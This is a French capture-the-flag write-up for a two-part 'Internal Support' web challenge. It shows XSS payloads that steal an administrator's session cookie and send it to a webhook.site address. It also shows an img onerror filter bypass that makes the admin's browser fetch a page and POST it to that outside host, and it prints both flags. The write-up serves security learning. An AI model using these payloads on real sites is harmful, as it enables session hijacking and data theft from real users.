 # Internal Support 1 & 2

Le challenge est en deux parties, mais les résolutions sont très similaires.

Énoncé de la partie 1:

> L'application "Internal Support" permet à la DGA d'assurer le support auprès de ses agents. En tant que nouvel embauché, vous pouvez vous y inscrire dès à présent. Chaque demande de support est maintenant traitée par nos administrateurs en un temps record.
>
> Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

Partie 2:

> Votre chance de débutant a des limites… La sécurité a été renforcée suite à la découverte de failles dans la précédente version !
>
> Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

## Description

On arrive sur la page d'accueil du site web.

![accueil](../images/internalsupport_accueil.png)

On crée un compte. Une fois inscrit et connecté, il n'y a qu'une seule action intéressante à faire : envoyer un message pour le support. Ce message est ensuite envoyé à l'admin et affiché sur notre écran.

![message](../images/internalsupport_message.png)

Cela fait très fortement penser à une attaque reflected XSS, dans laquelle on injecte du code malveillant que l'admin va exécuter quand il lira notre requête.

Effectivement, si on rentre `<script>alert(1)</script>` dans le message, l'alerte d'exécute de notre côté. Reste maintenant à injecter du code malveillant.

## Solution de la partie 1

Le but est de se connecter en tant qu'administrateur. Trouver le mot de passe n'est pas la bonne solution d'après l'énoncé, il faut donc trouver un autre moyen.

Si j'observe mes cookies, je remarque un cookie de session.

![cookie](../images/internalsupport_cookie.png)

Et là surprise ! Le cookie n'est pas en http only, ce qui signifie que les scripts js peuvent y accéder.

Le script suivant permet donc de récupérer le cookie, puis de l'envoyer sur un webhook pour que je puisse accéder à la réponse.

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://webhook.site/e4e61709-8764-4b2a-ba78-62094b66649d?cookie=" + document.cookie);
xhr.send();
</script>
```

Après quelques secondes j'obtiens le cookie admin :

![webhook](../images/internalsupport_webhook.png)

Le flag est sur la page principale.

![flag1](../images/internalsupport_solution1.png)

Flag: `NoUserValidationIsADangerousPractice`

## Solution 2

Pour le second site qui est exactement similaire, la même méthode ne fonctionne pas car le formulaire détecte le code malveillant.

![malicious](../images/internalsupport_malicious.png)

Ce n'est toutefois pas un problème puisqu'on peut facilement contourner le problème grâce à une balise img à la place de script.

```html
<img src=a onerror='
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://webhook.site/e4e61709-8764-4b2a-ba78-62094b66649d?cookie=" + document.cookie);
xhr.send();
'>
```

La même technique fonctionne, et j'obtiens le cookie admin. Cependant, un nouveau mécanisme de défense est apparent:

![ipcheck](../images/internalsupport_forbidden.png)

Malheureusement, spoofer l'adresse ip, même si on arrivait à trouver la bonne, ne serait pas d'une grande aide puisqu'on n'obtiendrait pas la réponse.

La solution est donc de demander à l'admin, qui lui est connecté, d'effectuer le travail à notre place.

Je crée donc une première requête que l'admin va effectuer, qui renvoie la page principale, et ensuite je m'envoie la réponse.

```html
<img src=r onerror='
var xhr2 = new XMLHttpRequest();
xhr2.open("GET", "/", false);
xhr2.send();
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/e4e61709-8764-4b2a-ba78-62094b66649d");
xhr.send(JSON.stringify({
    "page": xhr2.response
}));
'>
```

On obtient le flag dans la page reçue (activer CORS headers sur le webhook pour recevoir les requêtes POST).

![flag2](../images/internalsupport_flag2.png)

Flag: `BEtter_BUT_ST!LL_N0tttttttttt++Prfct!`